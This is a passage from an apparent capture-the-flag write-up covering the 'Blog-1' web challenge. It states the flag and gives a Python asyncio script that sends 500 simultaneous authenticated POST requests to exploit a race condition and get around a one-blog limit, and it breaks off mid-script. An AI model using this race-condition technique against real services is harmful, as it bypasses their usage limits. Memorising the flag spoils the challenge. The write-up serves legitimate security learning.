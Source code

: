 ```python
# Interact with the shell/flag output
p.interactive()
```

# Web Exploitation

## Challenge: Blog-1

### Flag: apoorvctf{s1gm@_s1gm@_b0y}

This challenge only allows users to create one blog at a time so we have to make a race condition to let the server approve the request we send. For this challenge, we had to create 5 blogs after which gives us a reward.

```python
import asyncio
import aiohttp

URL = "http://chals1.apoorvctf.xyz:5001/api/v1/blog/addBlog"

HEADERS = {
    "Host": "chals1.apoorvctf.xyz:5001",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0",
    "Accept": "application/json, text/plain, */*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/json",
    "Authorization": "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiI2N2MzZGQwMDZlNzk5OWVlMDJjM2NhYjciLCJ1c2VybmFtZSI6InNleHkiLCJpYXQiOjE3NDA4ODkzNDksImV4cCI6MTc0MDg5Mjk0OX0.gJ9PwASH5SmXIa1rYrdQCxtYqGxyZikQcFS95YsCAEY",
    "Origin": "http://chals1.apoorvctf.xyz:5001",
    "Connection": "keep-alive",
    "Referer": "http://chals1.apoorvctf.xyz:5001/",
    "Priority": "u=0"
}

PAYLOAD = {
    "title": "Race condition",
    "description": "success",
    "visible": True,
    "date": "2025-03-01T09:47:38.723Z"
}

# Set the number of concurrent requests per wave.
NUM_REQUESTS_PER_WAVE = 500

async def send_request(session, i, start_event):
    # Wait until all tasks are ready to send their request
    await start_event.wait()
    try:
        async with session.post(URL, json=PAYLOAD, headers=HEADERS) as response:
            text = await response.text()
            return i, response.status, text
    except Exception as e:
        return i, None, f"Exception: {str(e)}"

async def run_wave(session, wave_number):
    # Create an event to synchronize the start of all requests in the wave.
    start_event = asyncio.Event()
    tasks = [asyncio.create_task(send_request(session, i, start_event))
             for i in range(NUM_REQUESTS_PER_WAVE)]
```
